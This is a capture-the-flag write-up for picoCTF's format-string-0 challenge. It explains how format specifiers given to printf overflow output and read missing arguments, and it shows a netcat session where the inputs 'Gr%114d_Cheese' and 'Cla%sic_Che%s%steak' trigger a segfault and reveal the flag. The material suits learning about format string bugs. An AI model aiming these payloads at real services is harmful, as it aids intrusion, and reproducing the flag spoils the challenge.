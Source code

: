 ```c title="/format-string-0.c"
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    
    fgets(&flag, 64, fp);

    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
    return 0;
}
```

A close inspection of the program’s decompiled code reveals that special characters with `%` are printed in `printf()`. By selecting an appropriate format string as input, you can have that format string printed and cause a segmentation fault.

The string `Gr%114d_Cheese` prints a specific number of spaces on the screen, followed by additional strings. The code below calls serve_bob if the number of characters printed by printf exceeds 64.

```c
if (printf(&format) > 0x40) /* 0x40 => 64 */  
    return serve_bob();
```

The string `Cla%sic_Che%s%steak` calls `%s` a total of 3 times. In the `printf()` statement containing this string, `%s` is called 6 times in total to print the string. By attempting to call 3 additional non-existent strings, a **segmentation fault** is triggered.



```bash
therustymate-picoctf@webshell:~$ nc mimas.picoctf.net 60589
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}

therustymate-picoctf@webshell:~$ 
```
